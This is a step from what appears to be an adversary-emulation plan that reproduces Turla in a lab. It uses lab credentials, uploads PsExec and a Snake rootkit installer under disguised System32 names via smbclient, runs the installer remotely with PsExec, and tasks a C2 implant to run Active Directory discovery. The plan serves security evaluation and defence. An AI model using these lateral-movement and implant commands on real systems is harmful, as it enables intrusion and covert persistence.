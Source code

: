 :microphone: `Voice Track:`

Test 11 emulates Turla using the discovered admin account to laterally move to the file server and install the Snake rootkit on it, and then
using Powershell to perform Active Directory user, group, and computer discovery. 

---

### :biohazard: Procedures

:arrow_right: RDP into `berzas (10.100.30.204)` as `EgleAdmin`:

| Username   | Password |
| :--------: | :---------------: |
| nk\EgleAdmin  | Producer1! |

* Close any spurious windows

:arrow_right: Return to your Kali C2 server

* From your `smbclient` Kali terminal tab, copy PsExec and the second Snake installer to `Azuolas`.

```bash
smbclient -U 'nk\EgleAdmin'%'Producer1!' //10.100.40.103/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/PsExec.exe Windows\System32\file_svc_mgr.exe'
smbclient -U 'nk\EgleAdmin'%'Producer1!' //10.100.40.103/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/installer_v2.exe Windows\System32\cmu_svc_v2.exe'
```

:arrow_right: Return to your RDP session to `Azuolas (10.100.40.103)` as `Egle` and look for indications of vendor blocking activity.

* Open File Explorer and browse to `C:\Windows\System32`. Order files by date.

* In the :heavy_exclamation_mark: `EgleAdmin` Powershell terminal, run the following command to execute PsExec, which will run the Snake installer on the file server `berzas`:
```powershell
C:\Windows\System32\file_svc_mgr.exe \\berzas -accepteula -s -c "C:\Windows\System32\cmu_svc_v2.exe"
```

* Check both the `Egle` and `EgleAdmin` RDP windows for indications of the vendor blocking the activity.

:arrow_right: Return to your RDP session to `berzas (10.100.30.204)` as `EgleAdmin`

* Open Edge and navigate to <https://www.google.com>. Perform a search on `File server configuration best practices`, but don't click on any results.

:arrow_right: Check the Kali C2 server terminal window and verify that a new implant session is beaconing back to the C2 server.

* From your lower Kali C2 control server terminal window, task Snake to check if the `ActiveDirectory` PowerShell module is installed.
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Get-Module -ListAvailable -Name ActiveDirectory"}'
```
:heavy_exclamation_mark: Verify that you see output. If the implant returns empty output, please contact your lead.
